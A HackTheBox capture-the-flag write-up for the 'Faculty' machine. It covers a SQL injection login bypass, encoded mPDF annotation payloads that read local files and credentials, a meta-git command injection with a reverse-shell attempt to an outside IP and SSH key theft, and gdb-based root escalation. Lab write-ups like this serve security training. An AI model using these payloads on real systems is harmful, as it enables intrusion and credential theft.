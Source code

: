 ```yaml
---
title: HTB | Faculty
author: Zeropio
date: 2022-08-29
categories: [Pentesting, HackTheBox]
tags: [htb, linux, medium, machines]
permalink: /pentesting/htb/machines/faculty
image:
  path: /assets/img/hackthebox/card/Faculty.png
  width: 800
  height: 500
---
```


# Fingerprint

The nmap show:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e9:41:8c:e5:54:4d:6f:14:98:76:16:e7:29:2d:02:16 (RSA)
|   256 43:75:10:3e:cb:78:e9:52:0e:eb:cf:7f:fd:f6:6d:3d (ECDSA)
|_  256 c1:1c:af:76:2b:56:e8:b3:b8:8a:e9:69:73:7b:e6:f5 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://faculty.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The web redirect us to `/login.php`, asking for a ID. Testing some IDs (1,2,3…) we didn’t find anything. Trying to intercept the request with burp we see in the request a new page:

```
POST /admin/ajax.php?action=login_faculty HTTP/1.1
```

# Foothold

We see in that a page a login, easily bypassed with `' or '1'='1' #`.

We can download some of the pages as a pdf. Doing so will show us a new directory in the URL:

![Untitled](/assets/img/hackthebox/labs/faculty/Untitled.png)

We can search by **mpdf**, finding a vulnerabilty [here](https://github.com/mpdf/mpdf/issues/356). We can intercept the Burp request when creating a payload. We can see that it is url encoded two times and then base64 encode. We can use the same PoC as the vulnerability:

```html
<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="Attached File: /etc/passwd" pos-x="195" />
```

And encoded it as the same way:

```
JTI1M0Nhbm5vdGF0aW9uJTI1MjBmaWxlPSUyNTIyL2V0Yy9wYXNzd2QlMjUyMiUyNTIwY29udGVudD0lMjUyMi9ldGMvcGFzc3dkJTI1MjIlMjUyMGljb249JTI1MjJHcmFwaCUyNTIyJTI1MjB0aXRsZT0lMjUyMkF0dGFjaGVkJTI1MjBGaWxlOiUyNTIwL2V0Yy9wYXNzd2QlMjUyMiUyNTIwcG9zLXg9JTI1MjIxOTUlMjUyMiUyNTIwLyUyNTNF
```

In the attachment part of the pdf we can find the **passwd** file. We can see there two users with shell (apart from the root):

```
gbyolo:x:1000:1000:gbyolo:/home/gbyolo:/bin/bash
developer:x:1001:1002:,,,:/home/developer:/bin/bash
```

Trying to get the RSA of the users as:

```html
<annotation file="/home/developer/.ssh/id_rsa" content="/home/developer/.ssh/id_rsa"  icon="Graph" title="Attached File: /home/developer/.ssh/id_rsa" pos-x="195" />
```

Lead to an error generating the pdf.

Moving to the first page, we can see now some IDs. Loging with them redirect us to the schedule of each user. But while in the url we are in `faculty.htb/index.php`, Burp get the sites as a request to `/admin/ajax.php?action=get_schecdule` . If we go to that page without being loging, we can see an error.

![Untitled](/assets/img/hackthebox/labs/faculty/Untitled%201.png)

We can get this file with:

```html
<annotation file=" /var/www/scheduling/admin/admin_class.php" content=" /var/www/scheduling/admin/admin_class.php" icon="Graph" title="Attached File:  /var/www/scheduling/admin/admin_class.php" pos-x="195" />
```

Encoded as:

```
JTI1M0Nhbm5vdGF0aW9uJTI1MjBmaWxlPSUyNTIyJTI1MjAvdmFyL3d3dy9zY2hlZHVsaW5nL2FkbWluL2FkbWluX2NsYXNzLnBocCUyNTIyJTI1MjBjb250ZW50PSUyNTIyJTI1MjAvdmFyL3d3dy9zY2hlZHVsaW5nL2FkbWluL2FkbWluX2NsYXNzLnBocCUyNTIyJTI1MjBpY29uPSUyNTIyR3JhcGglMjUyMiUyNTIwdGl0bGU9JTI1MjJBdHRhY2hlZCUyNTIwRmlsZTolMjUyMCUyNTIwL3Zhci93d3cvc2NoZWR1bGluZy9hZG1pbi9hZG1pbl9jbGFzcy5waHAlMjUyMiUyNTIwcG9zLXg9JTI1MjIxOTUlMjUyMiUyNTIwLyUyNTNF
```

In this file we can see an include to **db_connect.php**. let’s get it:

```html
<annotation file=" /var/www/scheduling/admin/db_connect.php" content=" /var/www/scheduling/admin/db_connect.php" icon="Graph" title="Attached File:  /var/www/scheduling/admin/db_connect.php" pos-x="195" />
```

Encoded as:

```
JTI1M0Nhbm5vdGF0aW9uJTI1MjBmaWxlPSUyNTIyJTI1MjAvdmFyL3d3dy9zY2hlZHVsaW5nL2FkbWluL2RiX2Nvbm5lY3QucGhwJTI1MjIlMjUyMGNvbnRlbnQ9JTI1MjIlMjUyMC92YXIvd3d3L3NjaGVkdWxpbmcvYWRtaW4vZGJfY29ubmVjdC5waHAlMjUyMiUyNTIwaWNvbj0lMjUyMkdyYXBoJTI1MjIlMjUyMHRpdGxlPSUyNTIyQXR0YWNoZWQlMjUyMEZpbGU6JTI1MjAlMjUyMC92YXIvd3d3L3NjaGVkdWxpbmcvYWRtaW4vZGJfY29ubmVjdC5waHAlMjUyMiUyNTIwcG9zLXg9JTI1MjIxOTUlMjUyMiUyNTIwLyUyNTNF
```

There we can see some credentials, but we don’t have the user.

```php
<?php 

$conn= new mysqli('localhost','sched','Co.met06aci.dly53ro.per','scheduling_db')or die("Could not connect to mysql".mysqli_error($con));
```

We can try using them with SSH and the other two users we have. With gbyolo the credentials are valid.

# Privilege Escalation

We can use sudo with this user. Thanks to that we can see that we can run a command as developer:

```console
gbyolo@faculty:~$ sudo -l
[sudo] password for gbyolo: 
Matching Defaults entries for gbyolo on faculty:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User gbyolo may run the following commands on faculty:
    (developer) /usr/local/bin/meta-git
```

This report in [HackerOne](https://hackerone.com/reports/728040) told us about a vulnerability in meta-git, we can try doing it:

```console
gbyolo@faculty:~$ sudo -u developer meta-git clone 'poc | whoami'
	meta git cloning into 'poc | whoami' at poc | whoami
	
	poc | whoami:
	poc | whoami: command 'git clone poc | whoami poc | whoami' exited with error: Error: spawnSync /bin/sh EACCES
```

At first we got an error. That’s why developer doesn’t have access to our home. Let’s do it from a path that both accounts can get:

```console
gbyolo@faculty:/$ sudo -u developer meta-git clone 'test | whoami'
	meta git cloning into 'test | whoami' at test | whoami
	
	test | whoami:
	developer
	fatal: repository 'test' does not exist
	whoami: extra operand ‘test’
	Try 'whoami --help' for more information.
	test | whoami ✓
```

So we can execute code as developer. Trying a reverse shell result in failure:

```console
gbyolo@faculty:/$ sudo -u developer meta-git clone 'test | nc -e sh 10.10.16.44 443'
```

Let’s try getting the RSA:

```console
gbyolo@faculty:/$ sudo -u developer meta-git clone 'poc | cat ~/.ssh/id_rsa'
```

And we got it. We can now connect as developer, but where are not root yet. Using **linpeas** we can see some attacks paths. We see that we have access to `gdb`. We can make gdb take a root process and then make it execute a shell.

Search a process the root is using with a shell, for example Python:

```console
developer@faculty:~$ ps faux | grep ^root | grep python3
```

Then attach gdb to that process:

```console
developer@faculty:~$ gdb -p 3154
(gdb) call (void)system("chmod u+s /bin/bash")
[Detaching after vfork from child process 27552]
(gdb) quit
```

Now execute the shell:

```console
developer@faculty:~$ bash -p
bash-5.0# whoami
root
```
